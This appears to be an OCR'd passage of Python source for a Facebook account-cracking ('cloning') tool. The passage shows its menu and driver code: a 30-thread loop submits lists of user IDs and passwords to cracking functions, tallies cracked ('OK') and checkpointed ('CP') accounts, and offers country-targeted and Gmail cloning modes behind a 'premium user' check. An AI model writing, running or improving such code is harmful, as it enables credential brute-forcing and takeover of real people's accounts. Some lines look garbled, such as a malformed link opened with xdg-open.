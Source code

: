                                 if cx in ['y','Y','yes','Yes','1']:
                                        pcp.append('y')
                                else:
                                        pcp.append('n')
                                with tred(max_workers=30) as crack_submit:
                                        clear()
                                        total_ids = str(len(fo))
                                        print(' Total account : \033[1;32m'+total_ids+f' \033[1;33m>\033[1;36m> \033[1;37mMethod -> \033[1;37mM{mthd}')
                                        print("\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m")
                                        linex()
                                        for user in fo:
                                                ids,names = user.split('|')
                                                passlist = plist
                                                if mthd in ['1','01']:
                                                        crack_submit.submit(ffb,ids,names,passlist)
                                                elif mthd in ['2','02']:
                                                        crack_submit.submit(api,ids,names,passlist)
                                                else:
                                                        crack_submit.submit(api1,ids,names,passlist)
                                print('\033[1;37m')
                                linex()
                                print(' The process has completed')
                                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                                linex()
                                input(' Press enter to back ')
                                os.system('python akram.py')
                        elif xd in ['2','02']:
                                import dump
                                dump.Main()
                        elif xd in ['3','03']:
                                public()
                        elif xd in ['4','04']:
                                clear()
                                print(' [1] Pakistan cloning\n [2] Bangladesh cloning\n [3] Gmail cloning\n [0] Back menu')
                                linex()
                                x=input(' Choose: ')
                                if x in ['1','01']:
                                        pak()
                                elif x in ['2','02']:
                                        bd()
                                elif x in ['3','03']:
                                        gmail()
                                else:
                                        menu()
                        elif xd in ['5','05']:
                                gmail()
                        elif xd in ['6','06']:
                                wx=('Dsj9JMWoixk4Qsje0Ng3nA')
                                os.system(f'xdg-open 03230230320/{wx}');menu()
                        elif xd in ['7','07']:
                                os.system('xdg-open https://www.facebook.com/profile.php?id=100080334790585');menu()
                        elif xd in ['8','08']:
                                os.system('xdg-open https://www.facebook.com/profile.php?id=100080334790585/posts/pfbid0CZ9vn6qRF78vmdk4V3ja7Rx5mZa1hsmMaaTNXms2kkVyt1EZ7k5seWMjQd7pDfvvl/?app=fbl');menu()
                        elif xd in ['0','00']:
                                exit(' Thanks for use 🥰 ')
                        else:
                                exit(' Option not found in menu...')
                else:
                        print("\033[1;31m Your Not Premium User...!\033[1;37m");time.sleep(1)
                        clear()
                        print('\033[1;31m First Read Note : ')